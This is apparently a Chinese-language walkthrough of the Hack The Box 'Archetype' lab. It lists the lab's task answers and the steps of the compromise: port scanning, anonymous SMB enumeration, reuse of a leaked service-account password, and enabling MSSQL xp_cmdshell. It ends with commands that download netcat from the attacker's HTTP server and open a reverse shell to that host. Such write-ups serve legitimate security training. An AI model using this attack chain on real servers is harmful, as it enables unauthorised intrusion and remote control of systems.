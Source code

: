 <center>Archetype</center>







[toc]







## Archetype

> Archetype







### 1. task

1. Which TCP port is hosting a database server?

```shell
1433/tcp
```

2. What is the name of the non-Administrative share available over SMB?

```shell
backups
```

3. What is the password identified in the file on the SMB share?

```shell
M3g4c0rp123
```

4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

```shell
mssqlclient.py
```

5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

```shell
xp_cmdshell
```

6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?

```shell
winpeas
```

7. What file contains the administrator's password?

```shell
ConsoleHost_History.txt
```









### 3. flag

> 获取flag

```shell
export ip=10.129.18.192

nmap -sV -sC $ip

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2024-12-03T02:10:49+00:00; +1s from scanner time.
| ms-sql-info: 
|   10.129.18.192:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.18.192:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-03T02:03:39
|_Not valid after:  2054-12-03T02:03:39
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

> 枚举smb共享

```shell
smbclient -N -L \\\\$ip\\

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
```

> **查看backups，并发现 prod.dtsConfig 文件，在 prod.dtsConfig 中发现了`Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`**

![image-20241203102054843](./assets/image-20241203102054843.png)



> **使用impacket工具包的mssqlclient.py脚本连接到mssql服务器**

> **Microsoft SQL Server 2017正在端口1433上运行，并且在配置文件中发现了用户名和密码，尝试进行连接，使用impacket工具包。
>
>   \**工具包地址：[`https://github.com/fortra/impacket`](https://github.com/fortra/impacket)\****

```shell
impacket-mssqlclient ARCHETYPE/sql_svc@$ip -windows-auth
```

![image-20241203102738384](./assets/image-20241203102738384.png)

> 查看`xp_cmdshell`是否可用

```shell
# 查看当前用户角色
SELECT is_srvrolemember('sysadmin');

# 查看 xp_cmdshell是否可用
EXEC xp_cmdshell 'net user';

# 发现xp_cmdshell未激活
```

> 尝试激活xp_cmdshell

```shell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

> 激活了 xp_cmdshell，使用xp_cmdshell 执行命令，whoami执行成功，如果可以执行命令的话我们就可以执行反向shell
>
> `whoami查询成功`，尝试进行反向shell

```shell
xp_cmdshell "whoami"
```

> 反弹shell
>
> 下载`nc64.exe`
>
> [nc](https://eternallybored.org/misc/netcat/)

```shell
# 本地开启web服务，上传nc
python3 -m http.server 8000

# 将 nc64.exe 上传至 C:\Users\sql_svc\Downloads 目录，从http web服务器输出可以看出，nc64.exe 上传成功。
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.32:8000/nc64.exe -outfile nc64.exe"
```

![image-20241203110755888](./assets/image-20241203110755888.png)

> **开启监听通过nc将cmd.exe绑定到监听器，执行命令，获取到shell**

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc64.exe -e cmd.exe 10.10.16.32 4444"

nc -lnvp 4444
```

![image-20241203111108466](./assets/image-20241203111108466.png)
